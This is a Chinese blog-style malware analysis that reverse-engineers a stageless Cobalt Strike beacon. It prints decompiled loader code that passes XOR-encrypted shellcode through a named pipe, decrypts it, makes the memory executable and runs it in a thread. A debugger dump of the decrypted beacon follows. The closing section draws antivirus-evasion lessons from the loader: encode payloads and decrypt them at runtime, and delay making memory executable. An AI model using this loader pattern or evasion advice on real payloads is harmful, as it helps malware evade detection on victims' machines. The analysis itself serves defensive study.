 # cs后门逆向
#### stageless

快速翻找函数表后定位到主函数sub_403040如下

```
void __noreturn sub_403040()
{
  sub_401950();
  sub_4017F8(0i64);
  while ( 1 )
    Sleep(0x2710u);
}
```

进入到sub_4017F8函数中

```
__int64 sub_4017F8()
{
  DWORD dwCreationFlags; // [rsp+20h] [rbp-48h]
  int lpThreadId; // [rsp+28h] [rbp-40h]
  int v3; // [rsp+30h] [rbp-38h]
  int v4; // [rsp+38h] [rbp-30h]
  int v5; // [rsp+40h] [rbp-28h]
  int v6; // [rsp+48h] [rbp-20h]
  int v7; // [rsp+50h] [rbp-18h]
  DWORD v8; // [rsp+58h] [rbp-10h]

  v7 = 92;
  v6 = 101;
  v5 = 112;
  v4 = 105;
  v3 = 112;
  lpThreadId = 92;
  dwCreationFlags = 46;
  v8 = GetTickCount() % 0x26AA;
  sprintf(Buffer, "%c%c%c%c%c%c%c%c%cMSSE-%d-server", 92i64, 92i64, dwCreationFlags, lpThreadId, v3, v4, v5, v6, v7, v8);
  CreateThread(0i64, 0i64, sub_4016E6, 0i64, 0, 0i64);
  return sub_4017A6(0i64);
}
```

创建了一个sub_4016E6函数的线程实例，进入sub_4016E6

```
__int64 __fastcall sub_4016E6(LPVOID lpThreadParameter)
{
  sub_401630(&dword_404020[5], dword_404020[1]);
  return 0i64;
}
```

进入到sub_401630

```
int __fastcall sub_401630(char *lpBuffer, signed int nNumberOfBytesToWrite)
{
  char *NamedPipeA; // r12
  int result; // eax
  DWORD NumberOfBytesWritten; // [rsp+4Ch] [rbp-2Ch] BYREF

  NumberOfBytesWritten = 0;
  NamedPipeA = (char *)CreateNamedPipeA(Buffer, 2u, 0, 1u, 0, 0, 0, 0i64);
  result = (_DWORD)NamedPipeA - 1;
  if ( (unsigned __int64)(NamedPipeA - 1) <= 0xFFFFFFFFFFFFFFFDui64 )
  {
    result = ConnectNamedPipe(NamedPipeA, 0i64);
    if ( result )
    {
      while ( nNumberOfBytesToWrite > 0
           && WriteFile(NamedPipeA, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0i64) )
      {
        lpBuffer += NumberOfBytesWritten;
        nNumberOfBytesToWrite -= NumberOfBytesWritten;
      }
      return CloseHandle(NamedPipeA);
    }
  }
  return result;
}
```

将加密后的shellcode通过创建的管道读入到Buffer处

##### 核心功能

定位到sub_4017A6函数

```
__int64 sub_4017A6()
{
  void *v0; // r12

  v0 = malloc((int)dword_404020[1]);
  do
    Sleep(0x400u);
  while ( !(unsigned int)sub_401704(v0, dword_404020[1]) );
  sub_401595(v0, dword_404020[1], &dword_404020[2]);
  return 0i64;
}
```

`v0 = malloc((int)dword_404020[1])`类似于为shellcode动态分配一块内存空间

然后暂停0xx400ms（1s），调用sub_401704函数，v0即shellcode的地址，dword_404020[1]即shellcode的长度

```
__int64 __fastcall sub_401704(char *shellcode_addr, signed int shellcode_length)
{
  HANDLE FileA; // r12
  __int64 result; // rax
  DWORD NumberOfBytesRead; // [rsp+4Ch] [rbp-2Ch] BYREF

  NumberOfBytesRead = 0;
  FileA = CreateFileA(Buffer, 0x80000000, 3u, 0i64, 3u, 0x80u, 0i64);
  result = 0i64;
  if ( FileA != (HANDLE)-1i64 )
  {
    while ( shellcode_length > 0 && ReadFile(FileA, shellcode_addr, shellcode_length, &NumberOfBytesRead, 0i64) )
    {
      shellcode_addr += NumberOfBytesRead;
      shellcode_length -= NumberOfBytesRead;
    }
    CloseHandle(FileA);
    return 1i64;
  }
  return result;
}
```

通过while循环将Buffer处的加密的shellcode写入到shellcode_addr中，即v0中

最后调用sub_401595函数，`sub_401595((__int64)v0, dword_404020[1], (__int64)&dword_404020[2]);`

v0为加密的shellcode的地址，`dword_404020[1]`为shellcode长度，则是密钥

```
HANDLE __fastcall sub_401595(__int64 a1, int a2, __int64 a3)
{
  SIZE_T v3; // r12
  _BYTE *v6; // rbx
  __int64 i; // rax
  LPVOID v8; // rcx
  int flOldProtect[11]; // [rsp+3Ch] [rbp-2Ch] BYREF

  v3 = a2;
  v6 = VirtualAlloc(0i64, a2, 0x3000u, 4u);
  for ( i = 0i64; (int)v3 > (int)i; ++i )
    v6[i] = *(_BYTE *)(a1 + i) ^ *(_BYTE *)(a3 + (i & 3));
  sub_401563(v6);
  VirtualProtect(v8, v3, 0x20u, (PDWORD)flOldProtect);
  return CreateThread(0i64, 0i64, StartAddress, v6, 0, 0i64);
}
```

`VirtualAlloc(0i64, a2, 0x3000u, 4u)`：在合适的位置分配一块a2大小的内存块，拥有内存可读写权限

通过密钥对shellcode解密

```
for ( i = 0i64; (int)v3 > (int)i; ++i )
    v6[i] = *(_BYTE *)(a1 + i) ^ *(_BYTE *)(a3 + (i & 3));
```

`VirtualProtect(v8, v3, 0x20u, (PDWORD)flOldProtect)`：`VirtualProtect` 是 Windows API 函数，用于更改内存区域的保护属性，此代码功能为，将v6处的shellcode长度的内存空间改写为可读可执行，注：这里虽然是v8但是看了ida的汇编代码，发现反编译的时候出错了，实际上是v6

`CreateThread(0i64, 0i64, StartAddress, v6, 0, 0i64)`,创建线程实例执行v6处已解密的shellcode

之前没有启动cs服务端时，v6处的shellcode就为空，当我启动cs的服务端时，v6处填充了正常的shellcode，也正常上线了（内存中的一部分shellcode来自x64dbg）

```
0000000000A90000 | 4D:5A                    | pop r10                                 |
0000000000A90002 | 41:52                    | push r10                                |
0000000000A90004 | 55                       | push rbp                                |
0000000000A90005 | 48:89E5                  | mov rbp,rsp                             |
0000000000A90008 | 48:81EC 20000000         | sub rsp,20                              |
0000000000A9000F | 48:8D1D EAFFFFFF         | lea rbx,qword ptr ds:[A90000]           | rbx:"MZARUH夊H侅 ", 0000000000A90000:"MZARUH夊H侅 "
0000000000A90016 | 48:89DF                  | mov rdi,rbx                             | rbx:"MZARUH夊H侅 "
0000000000A90019 | 48:81C3 3C6E0100         | add rbx,16E3C                           | rbx:"MZARUH夊H侅 "
0000000000A90020 | FFD3                     | call rbx                                |
0000000000A90022 | 41:B8 F0B5A256           | mov r8d,56A2B5F0                        |
0000000000A90028 | 68 04000000              | push 4                                  |
0000000000A9002D | 5A                       | pop rdx                                 |
0000000000A9002E | 48:89F9                  | mov rcx,rdi                             | rcx:NtProtectVirtualMemory+14
0000000000A90031 | FFD0                     | call rax                                |
0000000000A90033 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A90035 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A90037 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A90039 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A9003B | 0008                     | add byte ptr ds:[rax],cl                |
0000000000A9003D | 0100                     | add dword ptr ds:[rax],eax              |
0000000000A9003F | 000E                     | add byte ptr ds:[rsi],cl                | rsi:L"t-ms-win-gdi-edgegdi-l1-1-0"
0000000000A90041 | 1F                       | ???                                     |
0000000000A90042 | BA 0E00B409              | mov edx,9B4000E                         |
0000000000A90047 | CD 21                    | int 21                                  |
0000000000A90049 | B8 014CCD21              | mov eax,21CD4C01                        |
0000000000A9004E | 54                       | push rsp                                |
0000000000A9004F | 68 69732070              | push 70207369                           |
0000000000A90054 | 72 6F                    | jb A900C5                               |
0000000000A90056 | 67:72 61                 | jb A900BA                               |
0000000000A90059 | 6D                       | insd                                    |
0000000000A9005A | 2063 61                  | and byte ptr ds:[rbx+61],ah             | rbx+61:" be run in DOS mode.\r\r\n$"
0000000000A9005D | 6E                       | outsb                                   |
0000000000A9005E | 6E                       | outsb                                   |
0000000000A9005F | 6F                       | outsd                                   |
```

##### 启发

我们做免杀的时候，可以学习这个魔改版cs的免杀

1. 将初始的payload编码，运行时解密，这样绕过了静态查杀
2. 将实际要执行的代码先设为可写可读，等到运行时再设置为可读可执行
